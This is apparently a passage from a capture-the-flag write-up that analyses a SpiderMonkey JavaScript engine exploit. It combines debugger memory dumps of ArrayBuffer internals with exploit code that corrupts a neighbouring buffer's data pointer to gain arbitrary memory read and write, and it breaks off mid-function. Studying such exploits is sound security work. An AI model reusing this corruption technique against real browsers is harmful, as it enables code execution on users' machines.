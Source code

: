 So `0x3ffffbf5e2d0` is actually a data pointer of an ArrayBuffer in its "Private" form. If we left shift the value 1 bit, it will become `0x7ffff7ebc5a0`, which is the data pointer of `buffers[80]`.

> I've traced the source code of SpiderMonkey and couldn't find the definition of the "Private form", so I still don't know why you need to left shift the value 1 bit to get the correct address of the data pointer. I would really appreciate it if someone can tell me where the definition is.

So what `view.copyWithin(hax, 32+8, 40+8);` does is copy the next ArrayBuffer's ( `buffers[80]` ) data pointer into TypedArray `view` . 

Later it stores the data pointer into `ptr`, and minus `224` to get the `addressOfInnerArrayBuffer`, which in this case is `0x7ffff7ebc4c0`:

```
gef➤  tel 0x7ffff7ebc4c0
0x00007ffff7ebc4c0│+0x00: 0x00007ffff7eb90d0  <-- group_
0x00007ffff7ebc4c8│+0x08: 0x00007ffff7eb73d0  <-- shape_
0x00007ffff7ebc4d0│+0x10: 0x0000000000000000  <-- slots_
0x00007ffff7ebc4d8│+0x18: 0x00000000013c7b70  <-- elements_
0x00007ffff7ebc4e0│+0x20: 0x00003ffffbf5e280  <-- data pointer
0x00007ffff7ebc4e8│+0x28: 0xfff8800000000060  <-- length
0x00007ffff7ebc4f0│+0x30: 0xfffe7ffff4601e60  <-- JSObject ( point to Uint8Array )
0x00007ffff7ebc4f8│+0x38: 0xfff8800000000000  <-- offet
0x00007ffff7ebc500│+0x40: 0x0000000000000000  <-- start point of a data pointer
0x00007ffff7ebc508│+0x48: 0x0000000000000000

```

We can see that `0x7ffff7ebc4c0` is "the address of `buffers[79]`". If we left shift the data pointer `0x3ffffbf5e280`, we'll get `0x7ffff7ebc500` -- the data pointer of `buffers[79]`. 


Let's see what does the exploit do next:

```javascript
    // Trigger the bug a second time to write the modified data pointer
    view.set(RShift1(addressOfInnerArrayBuffer).bytes());
    view.offset = 0;
    view.copyWithin(32+8, hax, 8);
```

It triggers the bug second time, and modified `buffers[80]`'s data pointer into `addressOfInnerArrayBuffer`. This make us able to modified `buffers[79]`'s structure by editing `buffers[80]`, and thus we'll have an arbitrary read/write primitive !


```javascript 
    // |outer| is a byte view onto the corrupted ArrayBuffer which now allows us to arbitrarily modify the ArrayBuffer |inner|
    var inner = buffers[79];
    var outer = new Uint8Array(buffer); // here buffer = buffers[80]

    // Increase the size of the inner ArrayBuffer
    outer[43] = 0x1;

    // Object to access the process' memory
    var memory = {
        write: function(addr, data) {
            // Set data pointer of |inner|
            outer.set(RShift1(addr).bytes(), 32);
            // Uint8Array's cache the data pointer of the underlying ArrayBuffer
            var innerView = new Uint8Array(inner);
            innerView.set(data);
        },
        read: function(addr, length) {
            // Set data pointer of |inner|
            outer.set(RShift1(addr).bytes(), 32);
            // Uint8Array's cache the data pointer of the underlying ArrayBuffer
            var innerView = new Uint8Array(inner);
```